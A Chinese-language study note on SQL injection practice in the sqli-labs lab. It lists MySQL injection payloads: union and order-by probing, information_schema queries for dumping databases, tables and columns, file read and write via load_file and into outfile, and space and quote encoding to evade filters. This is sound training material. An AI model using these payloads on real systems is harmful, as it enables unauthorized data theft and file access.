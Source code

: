 # SQL注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 环境需求
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[SQLi在线靶场](https://sqli-labs.htctf.com/)、[SQLi Github](https://github.com/Audi-1/sqli-labs)、Docker(镜像)、Hackbar插件、域名采集器、Google Hack
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;docker run -dt --name sqli -p 80:80 --rm acgpiano/sqli-labs
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;docker exec -it imageID /bin/bash
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;run 运行 -dt 守护进程 --name 别名 --rm 停止运行删除进程
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 关于SQLinject
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**SQL:** 是一门ANSI标准的计算机语言，用来**访问**和**操作**数据库系统，SQL语句用来取回和更新数据库中的数据
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**原因:** 开发人员对从web表单、cookie、输入参数等收到的值传递给SQL查询之前进行过滤控制
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**原理:** SQL代码插入或添加到应用(用户)的输入参数中，并且参数在后台SQL服务器中解析和执行
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**危害:** 获取数据库内容、读取文件信息、Getshell(root权限)
![](/assets/QQ20190218-174536@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 注入类型
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**1.按注入位置:**
![](/assets/WX20190307-142137@2x.png)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**2.按参数类型:** 
![](/assets/WX20190307-143314@2x.png)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**PS: 搜索型注入:** and '%1'='%1，select * from users where name like '%tom%'
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**3.按返回结果:**回显注入、无显注入 
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 查看数据库类型
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**报错显示**:
![](/assets/QQ20190218-181926@2x.png)
![](/assets/QQ20190218-181837@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x05 函数语句
```sql
    数据库: database()          用户: user()  
    数据库版本: version()
    数据库路径: @@datadir
    操作系统: @@version_compile_os
                 
    查询列数: order by,采用二分法
    联合查询: union,注意列数匹配
    连接函数: concat(),concat_ws(),group_concat()，前两者返回一个数据，后者返回数列
    
    写文件: into outfile PATH，函数前构建文件   
    读文件: load_file(PATH)  
    
    /**/或者%a0代替空格、%27代表 ' 
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x06 注入流程(MySQL)
```sql
    判断注入点: '  and 1=1/2  or 1=1/2,看页面反馈,但是使用or判断时,要设置为错误参数
    查询列数: order by 
    核心注入句:
        查库: select schema_name from information_schema.schemata
        查表: select table_name from information_schema.tables where table_schema='库名'
        查列: select column_name from information_schema.columns where table_name='表名'
        查数据: select 列 from 库名.表名
```








